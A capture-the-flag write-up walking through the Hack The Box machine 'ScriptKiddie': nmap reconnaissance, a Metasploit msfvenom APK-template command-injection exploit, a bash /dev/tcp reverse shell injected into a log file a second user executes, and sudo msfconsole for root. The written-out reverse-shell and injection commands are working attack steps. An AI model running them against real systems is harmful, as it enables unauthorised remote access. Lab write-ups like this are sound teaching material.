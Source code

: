 # ScriptKiddie
![banner](src/banner.png)

|Topics               |Details              |
|:--------------------|:--------------------|
| Creator             | [0xdf](https://app.hackthebox.eu/profile/4935)|
| Enumeration         | Slightly required   |
| Scripting           | Not required        |
| Custom Exploitation | Not required        |
| Real Life           | Nope                |

## My thoughts on the box
This box is obviously for beginners; simple steps, you don't need to have advanced skills. I enjoyed solving it, thanks to 0xdf.

BTW (Not Arch XD) this is my first writeup I hope it helps you. 
Constructive feedback is appreciated.

[My Hack The Box profile](https://app.hackthebox.eu/profile/184235)
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  <img src="https://github.com/f4T1H21/f4T1H21/blob/main/support.png" height="40" alt="Support">
  </img>
</a>

## Reconnaissance
I started with nmap: ``nmap -sS -sC -sV 10.10.10.226``

![nmap](src/nmap.png)

As you can see here we have two ports open. We can't hack it from it's ssh in this case, let's go with port 5000 which runs an http server through python.

We see a site that runs `nmap` and `msfvenom`, let's check if it is running properly.

![site](src/site.png)

It is working well in nmap. I also noticed something interesting in the site, a "`template file`" was required to generate reverse tcp `payloads`.

Googling it up gives us more interesting things XD

![site](src/search.png)

https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/

## Exploiting and getting a shell
So we have an msf module that creates a malicious apk file, which will be using in tcp/5000's msfvenom payload generator and expected to give us a reverse shell. Worth to try..

Let's first create our fellow template by using these commands:
```
msfconsole
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set lhost tun0 #Your VPN ip address
set lport 2121
run
```
![msfapk](src/msfapk.png)

We got a malicious template file, we just need to move it to our working directory and set a netcat listener.
```bash
mv /root/.msf4/local/msf.apk .
nc -lvnp 2121
```
![nc](src/nc.png)

Last but not least, go to http://10.10.10.226:5000 and generate a payload using our malicious template file as shown below.

![payloadapkset](src/payloadapkset.png)

**Boom, we got a reverse shell as the user kid!!** (Don't forget to get your user flag XD)

![payloadapkset](src/gotusershell.png)


## Privelege escalation to pwn user
After a really basic enumeration, I noticed an interesting executable in /home/pwn

![payloadapkset](src/nmapaspwn.png)

As I understand so far from the code, what we put inside ``/home/kid/logs/hackers`` is executed as pwn user. Now we're going to put a reverse shell in it and get a shell as **pwn** user.

Let's first set a nc listener on another port:
```
nc -lvnp 4040
```

Now we can put a reverse shell syntax inside the `hackers` file. But here the thing is: I was not able to just get a reverse shell using just ``bash tcp`` reverse shell, so I customized the syntax a bit.

Don't forget to change the ip address.

```bash
echo "  ;bash -c '0<&196;exec 196<>/dev/tcp/YOURIPHERE/2121; sh <&196 >&196 2>&196' # " > /home/kide/logs/hackers
```

![gotshellaspwn](src/gotshellaspwn.png)

**BOOM, we got another reverse shell as pwn user!!**

## Privilege escalation to root
Before doing any enumeration, let's check fi we can use ``sudo -l`` passwordless.

![sudo-l](src/sudo-l.png)

This is so funny :P Just run msfconsole with sudo privileges to become root XD
```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
/bin/bash
```
![root](src/root.png)

***And we sucessfully pwned the machine..***

![pwned](/src/gifs/pwned.gif)

## Closing
[Click](https://app.hackthebox.eu/profile/184235) to give me respect on Hack The Box.

Thanks for reading, see you on another .md file ..
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  <img src="https://github.com/f4T1H21/f4T1H21/blob/main/support.png" height="40" alt="Support">
  </img>
</a>

Resources:
```
https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/
```

***Written by f4T1H***
